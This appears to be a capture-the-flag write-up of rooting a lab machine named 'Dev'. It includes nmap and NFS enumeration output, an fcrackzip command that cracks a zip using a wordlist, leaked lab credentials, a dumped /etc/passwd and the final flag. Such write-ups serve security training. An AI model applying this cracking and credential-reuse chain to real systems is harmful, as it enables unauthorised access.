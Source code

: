 # Dev (172.16.2.130)
[29/July/2023 ::: 16:39] nmap scan

[29/July/2023 ::: 16:45] port 80 scan

[29/July/2023 ::: 16:46] port 8080 scan

[29/July/2023 ::: 16:54] port 2049 scan

[29/July/2023 ::: 16:57] Mounted into a directory

[29/July/2023 ::: 17:02] cracked the zip

[29/July/2023 ::: 17:08] app directory found in port 80

[29/July/2023 ::: 17:10] DB credentials found

[29/July/2023 ::: 17:18] Remote File Inclusion Attack Successfull

[29/July/2023 ::: 17:19] Potential SSH target discovered

[29/July/2023 ::: 17:23] SSH into the account Successfull

[29/July/2023 ::: 17:24] Sudo pprivileges as ZIP

[29/July/2023 ::: 17:28] Rooted the Machine

[29/July/2023 ::: 17:29] Flag Extracted

## nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 16:39 PKT
Nmap scan report for 172.16.2.130
Host is up (0.00058s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd96ec082fb1ea06cafc468a7e8ae355 (RSA)
|   256 56323b9f482de07e1bdf20f80360565e (ECDSA)
|_  256 95dd20ee6f01b6e1432e3cf438035b36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      32965/udp6  mountd
|   100005  1,2,3      42209/tcp   mountd
|   100005  1,2,3      52173/tcp6  mountd
|   100005  1,2,3      53325/udp   mountd
|   100021  1,3,4      38299/tcp6  nlockmgr
|   100021  1,3,4      44143/tcp   nlockmgr
|   100021  1,3,4      49037/udp   nlockmgr
|   100021  1,3,4      55849/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
33907/tcp open  mountd   1-3 (RPC #100005)
42209/tcp open  mountd   1-3 (RPC #100005)
44143/tcp open  nlockmgr 1-4 (RPC #100021)
46549/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 00:0C:29:66:9D:BC (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.58 ms 172.16.2.130

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds


### 80
Bolt Installation Error

Information disclosure


### 8080
PHP -info page

### 2049
┌──(wahaj㉿wahaj)-[~]└─$ showmount -e 172.16.2.130
Export list for 172.16.2.130:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

## Exploitation


### save.zip
using fcrack to get  into the zip file

┌──(root㉿wahaj)-[/mnt/dev]
└─# fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)


PASSWORD FOUND!!!!: pw == java101
                                       

#### todo.txt
- Figure out how to install the main website properly, the config file seems correct...
- - Update development website- 
- Keep coding in Java because it's awesome
- jp (possible person signature)


cant get into ssh yet, need jp password if the user exists

### config.yml
username: bolt
  password: I_love_java

### /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:107:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:108:65534::/var/lib/nfs:/usr/sbin/nologin

### flag.txt
# cd /root
# cat flag.txt
Congratz on rooting this box !


